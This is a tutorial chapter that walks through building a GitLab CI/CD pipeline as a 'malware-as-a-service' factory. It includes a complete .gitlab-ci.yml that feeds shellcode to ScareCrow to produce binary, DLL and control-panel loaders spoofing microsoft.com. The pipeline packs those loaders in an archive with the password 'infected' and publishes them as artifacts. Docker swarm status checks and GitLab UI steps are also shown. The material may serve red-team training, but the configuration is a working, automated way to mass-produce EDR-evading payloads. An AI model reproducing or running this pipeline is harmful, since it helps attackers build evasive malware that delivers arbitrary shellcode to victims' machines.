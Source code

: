 ## Your First CI/CD Pipeline

We are now ready to write our first CI/CD pipeline. CI/CD pipelines in Gitlab use a YAML configuration file which is saved in the root directory of a repository and named "**.gitlab-ci.yml**".

The documentation for the grammar used in this YAML file is located here at https://docs.gitlab.com/ee/ci/.

For this first effort, I have created a three stage pipeline that will generate some ScareCrow malware payload artifacts, ZIP them up and make available after the pipeline run completes.

Gitlab will automatically create a standard ZIP file for any artifacts that exist at the end of a pipeline run, however I like to use a 7Zip file within the outer ZIP file so that I can apply a passphrase.

### Pipeline Stages

In a typical CI/CD pipeline we would see stages such as *build*, *test*, and *deploy* for example. For our purposes we have a similar arrangement however we are not really doing any testing in this initial effort.

I am going to name our pipeline stages:
* PreProcess
* BakeMalware
* PostProcess

It is useful to know that Gitlab CI/CD will predefine a number of environment variables which we can leverage within our pipeline YAML file. These environment variables are documented here at https://docs.gitlab.com/ee/ci/variables/predefined_variables.html.

For the purposes of our pipeline, we make use of the **$CI_COMMIT_SHORT_SHA** variable to create a unique directory for each run of the pipeline.

**PreProcess** will be used to prepare the ground.  It might be some directory structure we need to create, or anything else we think we need before creating the malware payload itself.  In our case, we are creating a directory and creating a symbolic link to the **garble** binary so that ScareCrow will not have to download it.

**BakeMalware** will be used to actually execute ScareCrow a number of times in order to create the required binary artifacts we desire.

**PostProcess** will be used for 7ZIP archive creation purposes. The 7ZIP archive will be created in a directory which is then further zipped and made available as an artifact to download when the pipeline completes.

### The Pipeline Trigger

It is typically for a CI/CD pipeline to be triggered whenever a "**git commit**" occurs, however we can exert a little more control over this using a *workflow* statement in our YAML file.

For the purposes of generating malware loaders, we will need to supply some shellcode, thus we create a "**shellcode**" directory and configure the workflow such that any file changes in the "**shellcode**" directory will trigger a pipeline run.

### Full Listing of Gitlab YAML file

Below is a complete listing of the current "**.gitlab-ci.yml**" file. The major sections are:

* stages: listing all of the pipeline stages to be executed in sequence
* workflow: defining the pipeline trigger condition(s)
* PreProcess: execute any/all actions in the PreProcess stage.
* ScareCrow: configured as BakingMalware stage
* PostProcess: zip up files, cleanup and publish artifacts

```
stages:
    - PreProcess
    - BakeMalware
    - PostProcess

workflow:
    rules:
        - changes:
            - shellcode/*

PreProcess:
    stage: PreProcess
    tags:
        - maas
    script:
        - |
            mkdir -p /payloads/${CI_COMMIT_SHORT_SHA}/.lib
            ln -s /usr/local/bin/garble /payloads/${CI_COMMIT_SHORT_SHA}/.lib/garble

ScareCrow:
    stage: BakeMalware
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader binary -domain microsoft.com
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader dll -domain microsoft.com
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader control -domain microsoft.
com

PostProcess:
    stage: PostProcess
    tags:
        - maas
    script:
        - |
            DEST=${CI_PROJECT_DIR}/ScareCrowPayloads
            rm -rf /payloads/${CI_COMMIT_SHORT_SHA}/.lib
            cd /payloads
            7z a "${DEST}/${CI_COMMIT_SHORT_SHA}.7z" "${CI_COMMIT_SHORT_SHA}/*" -p"infected"
            rm -rf /payloads/${CI_COMMIT_SHORT_SHA}
    artifacts:
        name: ScareCrowPayloads
        paths:
            - ScareCrowPayloads/
        expire_in: 1 day
```

### Testing your Pipeline

#### Status of Backend Docker Infrastructure

Before testing the new pipeline, you should double check and ensure that the docker service stack is up and running. Login to your primary docker server, and issue some status checking commands to ensure that everything is running as expected.

* ```docker node ls``` is used to check the status of your docker swarm deployment
* ```docker service ls``` gives you information about your deployed service stack
* ```docker service ps``` lists running containers associated with your specific service
* ```docker ps``` lists all of the running containers on the host you are logged into

Shown below is some sample output of a few of these commands:

```
$ docker node ls
ID                            HOSTNAME   STATUS    AVAILABILITY   MANAGER STATUS   ENGINE VERSION
tzl5tqd5saou5ifxvj8opezmx *   docker01   Ready     Active         Leader           24.0.7
z22hcsipj4t2wjbohilptj9qn     docker02   Ready     Active                          24.0.7

$ docker service ls
ID             NAME        MODE         REPLICAS               IMAGE         PORTS
0bl6ihvy2yc7   maas_maas   replicated   4/4 (max 2 per node)   maas:latest

$ docker service ps maas_maas
ID             NAME          IMAGE         NODE       DESIRED STATE   CURRENT STATE               ERROR     PORTS
zsuswajwrmr7   maas_maas.1   maas:latest   docker01   Running         Running about an hour ago
jz3ms7fvcipi   maas_maas.2   maas:latest   docker02   Running         Running about an hour ago
0bvdxt9arhg8   maas_maas.3   maas:latest   docker01   Running         Running about an hour ago
ofjacom0xky8   maas_maas.4   maas:latest   docker02   Running         Running about an hour ago

```

#### Executing the Pipeline from Gitlab

1. In the repository menus, select Build -> Pipelines.

![Alt text](images/image-12.png)

2. Next, click on the **Run Pipeline** button at the top right corner of the web page. On the following page, you can select a code branch which for this excercise will already be "**main**". Now, click the **Run Pipeline** button in the lower left of the page.

You will see a web page that shows the status of the pipeline running.

![Alt text](images/image-13.png)

3. When the pipeline completes all of the stages, a green checkmark will appear under each stage. At any time, you can click on the stage *job* itself to see the output of any of the individual job actions in your pipeline script.

![Alt text](images/image-14.png)

4. At completion time, the status should change to *passed* and all green checkmarks will be displayed.

![Alt text](images/image-15.png)

5. The artifacts generated by your 7ZIP script actions will be available in a drop down menu which you can then download.

![Alt text](images/image-16.png)


[Goto Next Document -->](./06-going-parallel.md)
